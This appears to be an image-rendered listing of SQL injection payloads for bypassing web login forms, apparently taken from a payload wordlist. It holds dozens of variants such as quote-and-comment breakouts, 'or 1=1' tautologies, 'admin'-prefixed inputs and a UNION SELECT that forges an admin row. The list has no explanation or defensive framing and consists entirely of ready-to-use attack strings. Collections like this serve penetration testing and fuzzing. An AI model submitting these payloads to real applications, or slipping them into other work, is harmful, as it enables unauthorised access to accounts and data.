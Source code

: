 	" or ""^"
	" or ""*"
	or true--
	" or true--
	' or true--
	") or true--
	') or true--
	' or 'x'='x
	') or ('x')=('x
	')) or (('x'))=(('x
	" or "x"="x
	") or ("x")=("x
	")) or (("x"))=(("x
	or 2 like 2
	or 1=1
	or 1=1--
	or 1=1#
	or 1=1/*
	admin' --
	admin' -- -
	admin' #
	admin'/*
	admin' or '2' LIKE '1
	admin' or 2 LIKE 2--
	admin' or 2 LIKE 2#
	admin') or 2 LIKE 2#
	admin') or 2 LIKE 2--
	admin') or ('2' LIKE '2
	admin') or ('2' LIKE '2'#
	admin') or ('2' LIKE '2'/*
	admin' or '1'='1
	admin' or '1'='1'--
	admin' or '1'='1'#
	admin' or '1'='1'/*
	admin'or 1=1 or ''='
	admin' or 1=1
	admin' or 1=1--
	admin' or 1=1#
	admin' or 1=1/*
	admin') or ('1'='1
	admin') or ('1'='1'--
	admin') or ('1'='1'#
	admin') or ('1'='1'/*
	admin') or '1'='1
	admin') or '1'='1'--
	admin') or '1'='1'#
	admin') or '1'='1'/*
	1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
	admin" --
	admin';-- azer 
	admin" #
	admin"/*
	admin" or "1"="1
	admin" or "1"="1"--
	admin" or "1"="1"#
	admin" or "1"="1"/*
	admin"or 1=1 or ""="
	admin" or 1=1
	admin" or 1=1--
	admin" or 1=1#
	admin" or 1=1/*
	admin") or ("1"="1
	admin") or ("1"="1"--
	admin") or ("1"="1"#